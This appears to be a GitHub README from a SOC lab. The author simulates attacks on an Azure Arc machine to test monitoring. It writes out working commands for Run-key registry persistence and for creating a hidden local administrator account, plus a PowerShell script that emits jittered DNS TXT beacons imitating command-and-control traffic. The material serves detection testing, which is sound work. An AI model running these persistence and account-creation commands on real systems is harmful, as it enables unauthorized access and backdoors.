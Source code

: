 ![GitHub Logo](https://media-hosting.imagekit.io//624976c3677e4fbc/attack.png?Expires=1835504095&Key-Pair-Id=K2ZIVPTIP2VGHC&Signature=ECl9MXShcMnnOJbrW86dwFt6XH~GN2UDRVLCWTHqBtOamYtWHL~zmdHdiJfpt4O2a18spjuCX9kmpW5ofW02urY-p1iREhBJ4wj77xqwePjIat-SHf74LT8EJiC8fsUwLiGHuy~Zh0jeN4FGfN~OB26xDop~2jLlbX1ZEelhlA3kTQUwATBtyug-uaJnXGO~wQkWRD8o-QRPj1TbYXI6GZhaAIMJjVFMQeM-5nekGSXsjlw5ThyJF8~3VHhq0Hz7Y7BeRshIADoHzolnXRFKuIi09h~sWkpDcNM5RhANfFBvGKDi1p454wS382NLOfbtuuLGkpLerseiSexNsieG0g__)


# Persistence atack with registry key addition
In order to perform the task, I had previously connected my machine with Azure Arc. So, it is a mciahine with Azure Arc connected that has Azure monitor agent configured
1. Created a temp folder file in the root directory with
- _cd \
mkdir temp
cd temp_

2. Ran the command below to simulate program persistance: REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"


## Privilege Elevation Attach with User Aggregation
This command help to simulate the creation of administrator account
- net user theusernametoadd /add
- net user theusernametoadd ThePassword1!
- net localgroup administrators theusernametoadd /add
![GitHub Logo](https://media-hosting.imagekit.io//2b35beed32864efc/temp%20folder%20and%20command%20for%20persistent%20program%20simulation%20and%20priviledge%20elevation%20attack%20with%20user%20add.png?Expires=1835505576&Key-Pair-Id=K2ZIVPTIP2VGHC&Signature=sskFKv6PEXJUY4ptxQM1u1p0CyOXrd8BNTcWqb6F9Ll8kNF3FURzm6WUJl9MwGKl3xe11we2CDtZjR1qTNSY7Kxu6HnAYlPySjZoVhc~-W58mWV892pFFbqSOAvQkkJgAfn07iQG6~~6XwuN1MHn669ICiIY~4XTPMT69vUL7APrPJ3-i7VhZyf1H9m7Y4iuag8WOivlrtdXA2jQzNa04v44ESz-0GYPxSfQmmvaU04ye3pxnr4AlIC6DOED1UlbiJrLX89XuExY4vr6rF1ZOlRYNjnQ28d7viq9AjLMVG81jtY~5huVmhnPCkUP8fR04FjvC~1tz0vYmlS1VDf4gg__)

### Command and control attack with DNS
I ran this command to create a scirpt that will simulate a DNS query on a C2 server
- param(
    [string]$Domain = "microsoft.com",
    [string]$Subdomain = "subdomain",
    [string]$Sub2domain = "sub2domain",
    [string]$Sub3domain = "sub3domain",
    [string]$QueryType = "TXT",
    [int]$C2Interval = 8,
    [int]$C2Jitter = 20,
    [int]$RunTime = 240
)
$RunStart = Get-Date
$RunEnd = $RunStart.addminutes($RunTime)
$x2 = 1
$x3 = 1 
Do {
    $TimeNow = Get-Date
    Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
    if ($x2 -eq 3 )
    {
        Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x2 = 1
    }
    else
    {
        $x2 = $x2 + 1
    }    
    if ($x3 -eq 7 )
    {
        Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x3 = 1
    }
    else
    {
        $x3 = $x3 + 1
    }
    $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
    Start-Sleep -Seconds $Jitter
}
Until ($TimeNow -ge $RunEnd)
